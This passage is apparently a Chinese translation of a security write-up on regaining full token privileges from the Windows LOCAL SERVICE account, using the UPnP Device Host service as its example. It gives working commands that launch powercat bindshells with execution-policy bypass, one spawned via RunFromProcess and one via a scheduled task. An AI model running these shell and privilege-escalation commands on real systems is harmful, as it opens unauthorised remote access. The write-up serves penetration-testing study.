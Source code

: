 [![](https://p4.ssl.qhimg.com/t010d884ce1ccca702f.png)](https://p4.ssl.qhimg.com/t010d884ce1ccca702f.png)

这种情况下，我们能够看到与`NT AUTHORITY\LOCAL SERVICE`账户有关的特权：

[![](https://p4.ssl.qhimg.com/t0138af08deee092d84.png)](https://p4.ssl.qhimg.com/t0138af08deee092d84.png)

> 注意：这里要提醒一下，特权的`Enabled`/`Disabled`状态其实并不关键，关键的是令牌中具备哪些特权。如果令牌中包含某个特权，我们可以在运行时根据需要启用或者禁用该特权。

在这种情况下，对于UPnP Device Host之类的服务，我们能否找到方法重新夺回所有特权呢？答案是肯定的（否则本文就没有任何存在意义了），并且实现起来也特别简单。



## 0x01 环境复现

为了复现UPnP Device Host服务漏洞的利用环境，我使用NirSoft提供的[`RunFromProcess`](https://www.nirsoft.net/utils/run_from_process.html)工具以服务子进程的方式打开一个bindshell，该操作需要管理员权限，bindshell我使用的是[`powercat`](https://github.com/besimorhino/powercat)。`powercat`是PowerShell版的`netcat`实现，作为渗透测试人员，这是必不可少的一款工具。

`RunFromProcess`的用法非常简单，第一个参数为待运行可执行文件的宿主进程的PID，第二个参数为可执行文件的绝对路径，然后我们可以附加可执行文件需要的一些参数。

```
C:\TOOLS&gt;RunFromProcess-x64.exe 3636 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass -Command ". C:\TOOLS\powercat.ps1;powercat -l -p 7001 -ep"
```

要注意的是，工具没有给出是否运行成功的信息，因此我们在运行之前要多检查几次命令。完成该操作后，我们可以使用“客户端模式”的`powercat`连接bindshell。

```
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7001
```

[![](https://p4.ssl.qhimg.com/t0175e1ee3d1f3c40c8.png)](https://p4.ssl.qhimg.com/t0175e1ee3d1f3c40c8.png)

非常好，现在我们的shell已经运行在`NT AUTHORITY\SERVICE`上下文中，并且从上图中我们只看到两个特权。现在我们可以开展后续研究。



## 0x02 利用计划任务

在Windows系统中，任何用户都可以创建自己的计划任务，`NT AUTHORITY\LOCAL SERVICE`也不例外。默认情况下，我们可以把用来运行某个任务的账户当成该任务的“作者”。Windows会通过一系列本地（或者远程）RPC调用来完成计划任务创建过程，但这不是本文重点，不再赘述。

来看一下当我们在`LOCAL SERVICE`账户的上下文中创建任务会出现什么情况。我们可以使用PowerShell，通过3个简单的步骤完成该操作：

首先，我们需要为任务创建一个`Action`对象，其中我们可以指定待运行的程序/脚本以及某些可选参数。这里我们想在`7002`端口上打开bindshell，因此可以使用如下命令：

```
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7002 -ep`""
```

然后，我们可以“注册”并手动启动任务：

```
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask"
Start-ScheduledTask -TaskName "SomeTask"
```
